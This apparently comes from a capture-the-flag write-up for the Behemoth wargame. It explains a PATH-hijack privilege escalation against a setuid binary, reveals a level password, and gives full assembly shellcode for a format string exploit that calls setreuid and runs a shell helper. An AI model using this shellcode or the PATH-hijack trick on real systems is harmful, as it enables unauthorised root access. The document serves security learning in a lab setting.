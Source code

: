 ```assembly
 7ea:	c3                   	ret
 7eb:	66 90                	xchg   %ax,%ax
 7ed:	66 90                	xchg   %ax,%ax
 7ef:	90                   	nop
```
The interesting part of this assembly code is that a program performs a setreuid call to have suid permission and then calls `system('touch pid')` followed by a call to sleep function.

I focused on system libc call, because there is no specified absolute path of command and the program does not clear the env variables.

So I exported PATH putting a tmp directory in which I create `touch` program that simply do a `system` on `/bin/bash`.

Then I called behemoth2 program and I obtained suid shell.

`export PATH=/tmp/bbbb:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games`

##### pass=nieteidiel

------------------------------------------------------------------------------------------------------------------------------------


## level3->level4


We can perform here format string attack.
To do that i copied behemoth3 in a tmp dir just to see the core dumps.
I created a program called `com` that simply performed a system to `/bin/sh`.
You can call system directly in the shellcode with `/bin/sh` as argument but I do that just to check if the setreuid call is persistent.

Now my exploit code:

```assembly
.text
.global _start
_start:
    jmp string
prot:
    xorl    %esi,%esi
    popl    %esi
    xorl    %ebx,%ebx
    xorl    %ecx,%ecx
    xorl    %eax,%eax
    xorl    %edi,%edi
    movw    $0x32CC,%bx
    movw    $0x32CC,%cx
    movb    $0x46,%al
    int     $0x80
    xorl    %edx,%edx
    xorl    %ebx,%ebx
    xorl    %ecx,%ecx
    xorl    %eax,%eax
    movb    $0xB,%al
    movl    %esi,%ebx
    int     $0x80
    xorl    %eax,%eax
    inc     %eax                
    xor     %ebx, %ebx              
    int     $0x80
string:
	call prot
	p: .ascii "/////////////////////////tmp/2222/com"
```
